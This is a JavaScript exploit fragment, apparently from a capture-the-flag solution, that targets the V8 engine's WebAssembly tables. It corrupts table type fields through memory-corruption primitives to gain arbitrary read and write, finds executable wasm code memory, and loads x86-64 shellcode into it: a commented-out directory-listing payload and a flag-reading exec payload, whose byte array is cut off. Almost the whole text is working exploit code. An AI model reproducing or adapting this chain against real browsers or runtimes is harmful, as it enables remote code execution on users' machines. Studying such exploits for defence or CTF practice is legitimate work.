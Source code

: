 ```javascript
builder.addFunction("leak", kSig_l_v)
.exportFunc()
.addBody([
    kExprI32Const, 0,  // func index
    kExprCallIndirect, $sig_l_v, 2 /* table num */,
])

console.log("[*] instantiate");
let instance = builder.instantiate();
let func0 = instance.exports.func0;
let func1 = instance.exports.func1;
let func2 = instance.exports.func2;
let table0 = instance.exports.table0;
let table1 = instance.exports.table1;
let table2 = instance.exports.table2;

let t0 = addrOf(table0);
let t1 = addrOf(table1);
let t2 = addrOf(table2);
console.log("[*] t0: 0x" + t0.toString(16));
console.log("[*] t1: 0x" + t1.toString(16));
console.log("[*] t2: 0x" + t2.toString(16));

let type0 = (($sig_aaw << kHeapTypeShift) | kRef) << kSmiTagSize;
weak_write(t0 + BigInt(kWasmTableObjectTypeOffset - kHeapObjectTag), BigInt(type0));
table0.set(0, func0);

let type1 = (($sig_aar << kHeapTypeShift) | kRef) << kSmiTagSize;
weak_write(t1 + BigInt(kWasmTableObjectTypeOffset - kHeapObjectTag), BigInt(type1));
table1.set(0, func1);

let type2 = (($sig_leak << kHeapTypeShift) | kRef) << kSmiTagSize;
weak_write(t2 + BigInt(kWasmTableObjectTypeOffset - kHeapObjectTag), BigInt(type2));
table2.set(0, func2);

let trusted_data_addr = instance.exports.leak() - 1n;
console.log("[+] trusted data @ " + trusted_data_addr.toString(16));

let addr_rwx = instance.exports.aar(trusted_data_addr + 0x30n - 7n);
console.log("[+] wasm code @ " + addr_rwx.toString(16));

// var getdents_shellcode = [
//     0x9090909090909090n,
//     0x480000002b3d8d48n,
//     0x0002b8d23148f631n,
//     0x48c78948050f0000n,
//     0xb800001337bae689n,
//     0x01bf050f0000004en,
//     0x00000001b8000000n,
//     0x002e050fn,
// ]

// for (let i = 0; i < getdents_shellcode.length; i++) {
//     instance.exports.aaw(addr_rwx + BigInt(0xb69-0x9) + BigInt(i * 8), getdents_shellcode[i]);
// }
// instance.exports.aar(trusted_data_addr, 1n);

var exec_flag_reader_shellcode = [
    0x9090909090909090n,
    0x480000000d3d8d48n,
    0x003bb8d23148f631n,
    0x6d6f682f050f0000n,
    0x6c662f6e77702f65n,
```